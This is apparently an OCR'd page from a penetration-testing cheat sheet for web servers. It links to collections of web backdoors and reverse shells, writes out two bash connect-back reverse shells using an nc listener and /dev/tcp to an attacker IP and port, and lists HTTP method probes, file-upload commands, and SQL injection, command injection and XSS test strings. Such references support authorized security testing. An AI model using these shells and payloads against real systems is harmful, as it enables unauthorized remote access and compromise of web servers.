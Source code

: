                 ASP
                    http://packetstormsecurity.org/UNIX/penetration/aspxshell.aspx.txt
                Assorted
                    http://michaeldaw.org/projects/web-backdoor-compilation/
                    http://open-labs.org/hacker_webkit02.tar.gz
                Perl
                    http://home.arcor.de/mschierlm/test/pmsh.pl
                    http://pentestmonkey.net/tools/perl-reverse-shell/
                    http://freeworld.thc.org/download.php?t=r&f=rwwwshell-2.0.pl.gz
                PHP
                    http://php.spb.ru/remview/
                    http://pentestmonkey.net/tools/php-reverse-shell/
                    http://pentestmonkey.net/tools/php-findsock-shell/
                Python
                    http://matahari.sourceforge.net/
                TCL
                    http://www.irmplc.com/download_pdf.php?src=Creating_Backdoors_in_Cisco_IOS_using_Tcl.pdf&force=yes
                Bash Connect Back Shell
                    GnuCitizen
                        Atttack Box: nc -l -p Port -vvv

                        Victim: $ exec 5<>/dev/tcp/IP_Address/Port

                        Victim: $ cat <&5 | while read line; do $line 2>&5 >&5; done
                    Neohapsis
                        Atttack Box: nc -l -p Port -vvv

                        Victim: $ exec 0</dev/tcp/IP_Address/Port # First we copy our connection over stdin

                        Victim: $ exec 1>&0 # Next we copy stdin to stdout

                        Victim: $ exec 2>&0 # And finally stdin to stderr

                        Victim: $ exec /bin/sh 0</dev/tcp/IP_Address/Port 1>&0 2>&0
            Method Testing
                nc IP_Adress Port
                    HEAD / HTTP/1.0
                    OPTIONS / HTTP/1.0
                    PROPFIND / HTTP/1.0
                    TRACE / HTTP/1.1
                    PUT http://Target_URL/FILE_NAME
                    POST http://Target_URL/FILE_NAME HTTP/1.x
            Upload Files
                curl
                    curl -u <username:password> -T file_to_upload <Target_URL>
                    curl -A "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" <Target_URL>
                put.pl
                    put.pl -h target -r /remote_file_name -f local_file_name
                webdav
                    cadaver
            View Page Source
                Hidden Values
                Developer Remarks
                Extraneous Code
                Passwords!
            Input Validation Checks
                NULL or null
                    Possible error messages returned.
                ' , " , ; , <!
                    Breaks an SQL string or query; used for SQL, XPath and XML Injection tests.
                – , = , + , "
                    Used to craft SQL Injection queries.
                ‘ , &, ! , ¦ , < , >
                    Used to find command execution vulnerabilities.
                "><script>alert(1)</script>
                    Basic Cross-Site Scripting Checks.